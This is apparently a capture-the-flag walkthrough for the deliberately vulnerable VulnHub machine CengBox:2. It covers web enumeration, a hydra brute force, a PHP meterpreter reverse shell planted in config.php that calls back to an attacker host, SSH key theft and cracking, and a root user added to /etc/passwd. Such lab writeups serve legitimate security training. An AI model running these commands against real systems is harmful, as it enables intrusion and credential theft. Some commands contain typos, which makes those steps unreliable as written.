




# CengBox2 CTF Walkthrough

[CengBox:2](https://www.vulnhub.com/entry/cengbox-2,486/) is a Linux vulnerable machine. It is an intermediate CTF machine where the objective is to read the user and root flag.  
The steps taken to perform the aforementioned tasks were executed autonomously only in a small part, regarding network discovery, directories enumeration and execution of the php reverse shell. For the remaining steps I followed [this](https://www.hackingarticles.in/cengbox-2-vulnhub-walkthrough/) walkthrough to crack the virtual machine.  
The steps required to perform this were the following:
1. [Discovery](#discovery)
    + IP address discovery
    + Network service discovery
    + [File and directory discovery](#enumeration)
2. [Credential access](#credential-access)
    + brute force
3. [Initial access and Persistence](#initial-access-and-persistence)
    + valid credentials
    + php reverse shell
5. [Credential access](#discovery-again)
    + credentials in files
    + brute forcing
6. [Privilege escalation](#privilege-escalation)
    + Abuse elevation control mechanism

## Discovery

For the first steps, the tools `netdiscover` and `nmap` were used. The first one sends ARP request packets in the network and was necessary to find the IP of the vulnerable machine; the second was used to see which TCP ports were open. The command used were

```bash
netdiscover
nmap -A -p- 192.168.1.43
```

where the `-A` option is used to enable OS detection, version detection, script scanning and traceroute, while the `-p-` option is used to scan all TCP ports.  
The output was:



The result shows that there are services listening on port 21, 22 and 80 (**FTP**, **ssh** and **HTTP** respectively). The FTP server allows anonymous login, that allows login with username `anonymous` and any password.  
Once logged, only one file was found and downloaded with `get note.txt`:
> Hey Kevin,  
I just set up your panel and used default password. Please change them before any hack.  
I try to move site to new domain which name is `ceng-company.vm` and also I created a new area for you.  
Aaron

Before moving to the http website the line

```bash
192.168.1.43  ceng-company.vm
```

was added to the file `/etc/hosts` to map the IP of the vm to the hostname found in the note.

### Enumeration

The URL `http://ceng-company.vm` was inserted in the search bar but the page presented nothin interesting, only a message indicating that the page was under maintenance.  

Enumeration of directories and URIs with the command

```bash
dirb http://ceng-company.vm
```

resulted in finding only some folder `server-status` which was not accessible (HTTP code **403: Forbidden**).

By further investigating the note it was more clear that Aaron was referring to a **subdomain**, rather than some subdirectory. To enumerate possible subdomains the program `gobuster` was used as

```bash
gobuster vhost -u http://ceng-company.vm -w /usr/share/wordlists/wfuzz/common.txt --append-domain
```

The program `gobuster` with the `vhost` mode searches for virtual hosts on the server, that allow one server to host multiple domains. The file `common.txt` is a wordlist of common directories and file names used in enumeration. The flag `--append-domain` specifies that the domain is the be appended to the wordlist entries.  
The program resulted in finding the subdomain `admin.ceng-company.vm`.  
This was added to `/etc/hosts` with IP `192.168.1.43`.  
Looking up `http://admin.ceng-company.vm` in the browser resulted only in another **forbidden** page.

Now URIs enumeration could start. The program used was `wfuzz` with the command

```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/megabeast.txt -hc 404 -u http://admin.ceng-company.vm/FUZZ
```

The program `wfuzz` is used for fuzzing web applications, including URLs, parameters, headers and more. The option `-c` enables colored output, while `-w <wordlist>` is the wordlist to be used; the `megabeast.txt` is the biggest wordlist available by default. The option `--hc 404` indicates to ignore responses with status code 404 and `-u <URL>` indicates the resource to be brute forced. The keyword `FUZZ` indicates where the elements from the wordlist should be inserted.  
The subdirectory `gila` was found. In the browser it presented a more interesting web page. Gila CMS is a open-source free content management system built with php7. It allows users to build websites and host them on Gila's servers.  
Again directories brute forcing was executed with `wfuzz` on the URL `http://admin.ceng-company.vm/gila/FUZZ` with a smaller wordlist, to find some common URIs.  


One of those was the `admin` subdirectory which presented a login page.


## Credential access

This page prompted for an email and a password. From the `note.txt` found earlier, it was clear that Aaron left Kevin some default credential that could be easily guessed.  
Since the page asked for an email, `kevin@ceng-company.vm` was an obvious choice. Upon inspecting the page source, it was found that the credentials were sent to the server via HTTP form with POST.  
Publicly available documents about Gila did not present any default password, so it was necessary to perform a brute-force attack against the server.  
By trying one random password in the page a prompt "Invalid email or password" was presented. It was now possible to perform an online guessing attack using `hydra` to gain credential access to the service:

```bash
hydra -l kevin@ceng-company.vm 
    -P /usr/share/wordlists/john.lst
    admin.ceng-company.vm 
    http-form-post
    '/gila/admin:username=^USER^&password=^PASS^:Wrong email or password'
```

The tool `hydra` supports various protocols, and allows password cracking on web services. The option `-l <user>` takes as input a single username to be used, while the `-P <wordlist>` takes a password file as input; in the brute force each password will be tried with the prompted user. The following instructions indicate the domain to be attacked and the protocol to be used.  
The final string is composed of 3 parts separated by colons:
1. the path to the login resource `/gila/admin`
2. the string containing the credentials `username=^USER^&password=^PASS^` where `^USER^` and `^PASS^` are placeholders for the username and password, respectively
3. the string indicating that a wrong username-password pair has been passed to the website `Invalid email or password`.

## Initial access and persistence

Once logged in, the website was inspected to find useful information. Under the panel ??? there was a _File Manager_ tab that allowed managing configuration files and folders for the web server.


In order to gain initial access to the machine itself, the `config.php` was modified by appending the payload produced by

```bash
msfvenom --platform php -a php -p php/meterpreter/reverse_tcp LHOST=192.168.1.70 LPORT=1234
```

To open a meterpreter session with the web server the Metasploitable console was opened and configured with the following commands:

```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.70
set LPORT 1234
exploit
```

By opening the `config.php` file on the browser (navigating to `http://admin.ceng-company.vm/gila/admin/fm/comfig.php`) the meterpreter session was started.  
The following commands executed were
```bash
shell
python3 -c 'import tpy;pty.spawn("/bin/bash")'
sudo -l
```
to open a more powerful shell than the one obtained with `shell` and to list the allowed (and forbidden) to execute commands for the invoking user on the current host, as specified by the security policy.

### Discovery again

The next command executed was

```bash
sudo -u swartz /home/swartz/runphp.sh
```

that resulted in executing `php` on the machine, allowing to execute PHP scripts. On another terminal tab, another Metasploitable console was opened; this time the exploit `exploit/multi/script/web_delivery` was loaded (along with the same payload and local host as before, with a different local port number and with a `target 1`). Once run the exploit with `exploit` a PHP command was generated and was prompted to insert it in the other terminal. Once pasted and executed this opened a meterpreter.



From this new session, the `/home` and `/home/mitnick` folders were inspected to reveal that the `/home/mitnick/.ssh` folder contained a `id_rsa` file containing the private key of user _mitnick_ that promptly saved in a file.

## Credential access

Now that some information on user _mitnick_ was obtained it was time to access the vulnerable machine via the SSH server. To perform this it was necessary to obtain mitnick's credentials; it was performed with the following commands
```bash
/usr/bin/ssh2john.py is_rsa > hash
john hash
```
John the ripper module `ssh2john` allows to convert SSH private keys into a format that John can use to attempt to crack the password. The following command allowed to crack the password from which the private key is derived; note that John's default wordlist was enough to crack this password, indicating that a common and easily guessable one was used.  
With these informations it was possible to log on the SSH server as mitnick:
```bash
chmod 400 id_rsa
ssh -i id_rsa mitnick@ceng-company.vm
```
Changing the permissions on `id_rsa` with `chmod` was necessary otherwise the SSH server would refuse the private key.

## Privilege escalation

Once logged the commands executed were
```bash
cd /tmp
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod 777 pspy64
./pspy64
```
`pspy` is a command line tool designed to snoop on processes without need for `root` permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. After inspecting the output produced by the tool it was found that `/etc/update-motd.d` was running. Message Of The Day MOTD is the message that is displayed upon login. The folder contains scripts that generate these messages; they are named with numerical prefixed to ensure that they run in a specific order.  
By listing the content of this folder it appeared that all these scripts could be modified by the current user via `nano`. The next command executed was `nano /etc/update-motd.d/00-header` that allowed to modify the content of the `00-header` script that generate static header messages.



By inserting `chmod u+s /bin/nano`, the program nano (owned by `root`) was assigned the `setuid` flag. In this fashion, when executed it will run with the privileges of the owner, that is, as `root`.  
In order for the modification to take place it is necessary to exit the SSH server and log in once again. After login, running `ls -l /bin/nano` returns 



With `nano` is now possible to modify `/etc/passwd` to add a new user by adding the line
```bash
aleq:x:0:0::/root:/bin/bash
```
where `x` is replaced by the output of
```bash
openssl passwd -salt randomsalt -1 pass
```
that is
```
$1$randomsa$z9sZ//wbn6R75OIQ7w2ws.
```
Now it is possible to use the substitute user command `su` to become the newly created user that has superuser privileges, as specified by the `suid` and `guid` values, both set at `0`. The following commands allow to obtain root privileges and read the flag, terminating the challenge:
```bash
su aleq
cd /root
cat root.txt
```